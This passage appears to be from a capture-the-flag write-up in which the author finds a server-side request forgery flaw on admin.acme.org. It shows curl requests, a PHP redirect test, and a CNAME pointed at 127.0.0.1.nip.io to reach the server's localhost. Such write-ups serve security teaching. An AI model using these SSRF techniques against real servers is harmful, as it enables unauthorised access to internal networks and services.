 `b69s` huh? That looks weird. 

After some head-bumps in the wall, i finally realized that it is the base64 encoded version of `lol`.

Well, it means that the server sends a request to the `domain` supplied, and returns the response. So it is a SSRF(Server Sided request Forgery). 

A SSRF basically means that we are able to send requests on the behalf of the server, and sometimes view the response. So basically we are forging requests, as the request seems to occur from the server, but in reality, we made the server make the request and return the response to us. 

There's quite a lot of things we can do with a SSRF, with the most important one being accessing the private ip space of the server by sending/forging requests to its internal/private network.

Now let's see how we can escalate this one. Since it had some domain name constrains, I was thinking to do a `302` redirect to any domain I wanted. Let' see if it works.

I changed the index.php to the following just to see if it followed redirects.

```php
<?php header("Location: /test.txt"); ?>
```

Trying the above requests again, this was the result

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "212lol.channelcs.com"}' 'admin.acme.org' 
{"next":"\/read.php?id=2"}

jazzy@lolbox ~ $ curl -b 'admin=yes' 'http://admin.acme.org/read.php?id=2'
{"data":""}
```

No RESPONSE, so it doesn't follow redirects. The next possible thing to do is to make the domain resolve to a private IP, which can be then used to view the services running internally and/or do a internal port scan. And since this SSRF is verbose(full response shown), it can possibly be used for priviledge escalation.

But apparently, the guy who's domain I borrowed uses a free hosting, so for subdomains, the free host only allows setting up CNAMEs, not A records. And I can't just enter a IP in the CNAME field because that will break it, and I don't have any other domains to use. 

This stumped for a while, until i remembered a pretty usefull service known as [nip.io](http://nip.io/). nip.io basically provides a wildcard DNS service, for example `23.23.23.23.nip.io` would resolve to `23.23.23.23`. 

The idea was that I could use a nip.io address as my CNAME, which would then get resolved to the IP i want. So I pointed the CNAME to `127.0.0.1.nip.io`.

![imag](https://i.imgur.com/onTDNPk.png)

Now let's try it with our newest subdomain, which will resolve to localhost and follows all our constrains.

```sh
jazzy@lolbox ~ $ curl -X POST -H 'Content-Type: application/json' -b 'admin=yes' -d '{"domain" : "212local.channelcs.com"}' 'admin.acme.org' 
{"next":"\/read.php?id=3"}

jazzy@lolbox ~ $ curl -b 'admin=yes' 'http://admin.acme.org/read.php?id=3'
{"data":"CjwhRE9DVFlQRSBodG1sIFBVQkxJQyAiLS8vVzNDLy9EVEQgWEhUTUwgMS4wIFRyYW5z.....
--more--
```
